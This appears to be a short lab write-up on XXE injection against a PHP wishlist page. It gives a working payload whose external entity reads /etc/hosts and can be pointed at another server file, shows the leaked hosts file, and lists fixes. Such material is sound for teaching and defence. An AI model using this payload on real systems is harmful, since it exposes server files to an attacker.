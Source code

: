 ## XXE ##

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker 
to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

Wishlist.php

payload

<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]> //CHANGE THE payload SYSTEM to "/var/www/html/wishes/wish_1.txt"
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>

The product ID: 127.0.0.1 localhost

# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts
is invalid.

    Disable External Entity Loading: The primary fix is to disable external entity loading in your XML parser. In PHP, for example, you can prevent XXE by setting libxml_disable_entity_loader(true) before processing the XML.
    Validate and Sanitise User Input: Always validate and sanitise the XML input received from users. This ensures that only expected data is processed, reducing the risk of malicious content being included in the request. For example, remove suspicious keywords like /etc/host, /etc/passwd, etc, from the request.

